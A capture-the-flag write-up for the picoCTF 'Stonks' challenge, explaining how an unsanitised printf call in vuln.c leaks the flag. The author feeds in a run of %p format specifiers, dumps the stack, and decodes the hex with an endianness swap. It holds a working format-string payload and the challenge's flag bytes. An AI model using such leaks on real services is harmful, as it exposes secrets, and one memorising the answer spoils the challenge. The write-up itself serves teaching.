

# Stonks

## Table of Matters

[Solution](#Solution)

[Resources](#Resources)

[Notes](#Notes)

## Details

- **Points:** 20

- **Source:** picoCTF

- **Author:** MADSTACKS

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c `nc mercury.picoctf.net 27912`

### Hint 1

Okay, maybe I'd believe you if you find my API key.

## Solution

- Fetch the file required for the challenge with the `wget` command like so:

```
$ wget https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c
```

- Connect to the shell with:

```
nc mercury.picoctf.net 27912
```

- After probing the app a bit, I find that it is pretty simple, we have two branches of execution and the first one seems the most interesting to me since it's related to the API key we need to find.

- Tracing the function `buy_stonks(Portfolio *p)`, I notice this interesting block of instructions:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The program is printing an unsanitized a user-input as the format string.

- What would happen if we inputted some format specifiers? I probed the app again by sending the following format specifiers `%c`, `%s`, `%d`, `%p` instead of the API token. Notice anything interesting ? And how can we use the data dump to retrieve the flag?

- Looking again at the beginning of the `buy_stonks(Portfolio *p)` function:

```c
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

Which indicates that our flag is sitting on the stack. Let's exploit how `printf()` is pulling data from the stack to match each format specifier in the supplied format string !

- Let's input a sequence of `%p` format specifiers like so:

```
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

We get back a sequence of 32-bit HEX values:

```
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

Buying stonks with token:
0x95ea4300x804b0000x80489c30xf7f20d800xffffffff0x10x95e81600xf7f2e1100xf7f20dc7(nil)0x95e91800x10x95ea4100x95ea4300x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x326663310x306131300xffc5007d0xf7f5baf80xf7f2e4400x846993000x1(nil)0xf7dbdbe90xf7f2f0c0

Portfolio as of Fri Jan 21 19:51:57 UTC 2022
```

We can spot a string of ASCII bytes among the other data on the stack (Starting at the 15th 32-bit hex value).

- Using a conversion tool like [CyberChef](https://gchq.github.io/CyberChef), we can unhexify the ASCII sequence that we got:

```
0x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x326663310x306131300xffc5007d0xf7f5baf80xf7f2e4400x846993000x1(nil)0xf7dbdbe90xf7f2f0c0
```

We get the following output:

```
ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿÅ.}÷õºø÷òä@.i...}½¾../..
```

- It looks like every 4 characters are inversed (AKA the endians are swapped).

- I added an ingredient to my CyberChef recipe to swap the endianness as shown in the image below:



And there is the flag !

## Resources

- [Format Specifiers in C](https://www.geeksforgeeks.org/format-specifiers-in-c/)
